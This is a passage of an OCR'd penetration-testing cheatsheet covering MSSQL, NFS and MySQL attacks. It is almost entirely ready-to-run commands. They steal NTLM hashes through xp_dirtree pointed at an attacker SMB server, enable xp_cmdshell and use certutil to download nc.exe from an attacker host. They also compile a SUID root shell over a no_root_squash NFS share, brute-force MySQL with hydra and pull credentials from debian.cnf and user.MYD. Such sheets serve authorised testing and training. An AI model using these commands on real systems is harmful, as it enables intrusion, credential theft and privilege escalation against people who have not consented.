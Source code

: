 # Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
Manual exploit
Cheatsheet :
	- https://www.asafety.fr/mssql-injection-cheat-sheet/
NFS - 2049
Show Mountable NFS Shares
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
Mount a share
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>
NFS misconfigurations
# List exported shares
cat /etc/exports
If you find some directory that is configured as no_root_squash/no_all_squash you may be able to privesc.

# Attacker, as root user

mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn

# Victim

cd <SHARE>
./pwn # Root shell
MYSQL - 3306
Brute force
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u
Extracting MySQL credentials from files
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
Connect
# Local
mysql -u <USER>
mysql -u <USER> -p
